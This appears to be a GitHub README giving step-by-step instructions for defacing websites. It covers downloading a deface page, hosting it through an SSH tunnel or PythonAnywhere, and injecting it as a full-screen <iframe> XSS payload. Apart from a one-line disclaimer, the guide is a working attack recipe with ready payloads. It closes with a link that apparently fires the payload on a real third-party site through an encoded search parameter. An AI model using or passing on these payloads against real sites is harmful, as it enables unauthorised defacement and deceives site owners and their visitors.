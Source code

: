 

# 🚀 How to Host a Deface Page and Use it in an `<iframe>` XSS Payload


## **Step 1: Download the Deface HTML Page**



* Go to the following URL to download a pre-designed deface page:

  ```
  https://deface.prinsh.com/#home
  ```
* Save the downloaded file (usually named `deface.html`) to your desired directory.


## **Step 2: Rename the HTML File to `index.html`**

* Open your terminal in the directory where the file is saved.
* Run the following command to rename the file:

  ```bash
  mv deface.html index.html
  ```

# Hosting and Port Forwarding of deface website

Hosting a Defaced websites are typically hosted on a local server, and port forwarding might be used to make the website accessible from the internet

# By Using Localhost.run (Temporary Hosting) ⚜️

## **Step 3: Start a Local Python HTTP Server**

* In the same directory, start a simple HTTP server using Python:

  ```bash
  python3 -m http.server
  ```
* By default, this will host the contents of the current folder at:

  ```
  http://localhost:8000
  ```


## **Step 4: Port Forward the Local Server Using SSH Tunneling**

* Use the following command to expose your local server to the internet:

  ```bash
  ssh -R 80:localhost:8000 nokey@localhost.run
  ```
* After a few seconds, you will get a public URL like:

  ```
  https://<random>.lhr.life
  ```



## **Step 5: Use the Public URL Inside an XSS `<iframe>` Payload**

* Insert the forwarded URL inside an `<iframe>` tag to embed your deface page in an XSS attack:

  ```html
  <iframe src="https://70cd7efcbcf713.lhr.life" 
  style="border: 0; position: fixed; top: 0; left: 0; right: 0; bottom: 0; width: 100%; height: 100%;">
  </iframe>
  ```



> ⚠️ **Note**: This example is for educational and ethical hacking purposes only. Do **not** use it to perform unauthorized actions. Always take permission before conducting any security testing.

# By Using  PythonAnywhere.com (Permanent Hosting) ⚜️

---



### 🔹 Step 1: Upload Your `index.html` File

* Go to:
  👉 [https://www.pythonanywhere.com/](https://www.pythonanywhere.com/)
  
* Click **Upload a file**.
* Upload your `index.html` file
---

### 🔹 Step 2: Configure Web App to Serve Static Files

1. Go to the [**Web tab**](https://www.pythonanywhere.com/user/<username>/webapps/) of your dashboard.

2. If you don't have a web app yet, click **"Add a new web app"**:

   * Choose: `Manual configuration (Python 3.x)`
   * Choose: `Flask` (we'll override this to serve static files only)
   * Domain: `ramed80048.pythonanywhere.com`

3. Scroll down to **"Static files"** section:

   * Add a new entry:

     ```
     URL: /      Directory: /home/<your-Username>/
     ```
     ![image](https://github.com/user-attachments/assets/1f0f7a8d-83da-49c9-9cf6-fa751c6da8cc)


4. Scroll to the top and click **Reload** .

---

### ✅ Done!

Now open your web app:

👉 [https://<your-Username>.pythonanywhere.com](https://<your-Username>.pythonanywhere.com)

This will directly show your `index.html` file and you can use this **HTTPS** URL in your `<iframe>` XSS payload:
Replace 'src=' link

 
```html
<iframe src="https://ramed80048.pythonanywhere.com" 
style="border: 0; position: fixed; top: 0; left: 0; right: 0; bottom: 0; width: 100%; height: 100%;">
</iframe>
```

---

![Screenshot 2025-05-23 121115](https://github.com/user-attachments/assets/ba56435d-20c0-4f2c-9216-6485f924bffd)

preview 👉: https://prdb.pk/front/search/ICA8aWZyYW1lIHNyYz0iaHR0cHM6Ly9yYW1lZDgwMDQ4LnB5dGhvbmFueXdoZXJlLmNvbS8iICBzdHlsZT0iYm9yZGVyOiAwOyBwb3NpdGlvbjpmaXhlZDsgdG9wOjA7IGxlZnQ6MDsgcmlnaHQ6MDsgYm90dG9tOjA7IHdpZHRoOiAxMDAlOyBoZWlnaHQ6MTAwJSI+







